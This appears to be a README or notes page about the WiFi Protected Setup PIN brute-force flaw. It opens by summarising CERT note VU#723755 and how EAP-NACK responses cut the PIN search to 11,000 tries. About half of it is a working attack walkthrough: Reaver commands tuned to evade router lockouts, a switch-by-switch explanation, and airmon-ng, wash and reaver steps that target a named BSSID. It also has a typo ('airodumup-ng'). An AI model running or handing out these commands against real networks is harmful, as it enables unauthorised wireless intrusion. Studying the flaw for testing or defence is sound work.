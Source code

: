 [Vulnerability Note VU#723755](http://www.kb.cert.org/vuls/id/723755)

The WiFi Protected Setup (WPS) PIN is susceptible to a brute force attack. A design flaw that exists in the WPS specification for the PIN authentication significantly reduces the time required to brute force the entire PIN because it allows an attacker to know when the first half of the 8 digit PIN is correct. The lack of a proper lock out policy after a certain number of failed attempts to guess the PIN on many wireless routers makes this brute force attack that much more feasible.

####Description

WiFi Protected Setup (WPS) is a computing standard created by the WiFi Alliance to ease the setup and securing of a wireless home network. WPS contains an authentication method called "external registrar" that only requires the router's PIN. By design this method is susceptible to brute force attacks against the PIN.

When the PIN authentication fails the access point will send an EAP-NACK message back to the client. The EAP-NACK messages are sent in a way that an attacker is able to determine if the first half of the PIN is correct. Also, the last digit of the PIN is known because it is a checksum for the PIN. This design greatly reduces the number of attempts needed to brute force the PIN. The number of attempts goes from 10^8 to 10^4 + 10^3 which is 11,000 attempts in total.

It has been reported that many wireless routers do not implement any kind of lock out policy for brute force attempts. This greatly reduces the time required to perform a successful brute force attack. It has also been reported that some wireless routers resulted in a denial-of-service condition because of the brute force attempt and required a reboot.

Ideally, the basic command works and the attack progresses as expected. But in reality, different manufacturers have been trying to implement protections against Reaver-style attacks, and additional options may be required to get the attack moving.

As an example, the following command adds a few optional switches that can help to get Reaver working on more picky devices:

`reaver -i mon0 -c 6 -b 00:23:69:48:33:95  -vv -L -N -d 15 -T .5 -r 3:15 `

The core command hasn’t changed, the additional switches just change how Reaver behaves:

 - -L [ Ignore locked WPS state. ]

 - -N [ Don't send NACK packets when errors are detected. ]

 - -d 15 [ Delay 15 seconds between PIN attempts. ]

 - -T [ Set timeout period to half a second. ]

 - -r 3:15 [ After 3 attempts, sleep for 15 seconds ]

```
ifconfig
iwconfig to see that its in managed mode
airmon-ng check kill
airmon-ng start wlan0
iwconfig to see that it is in monitor mode

airodumup-ng wlan0mon # to see wifi networks and the encryption. 

wash -i wlan0mon # to scan for WPS enable networks

reaver -i wlan0mon -b 1C:AF:F7:CC:61:6B -vv -K 1
```

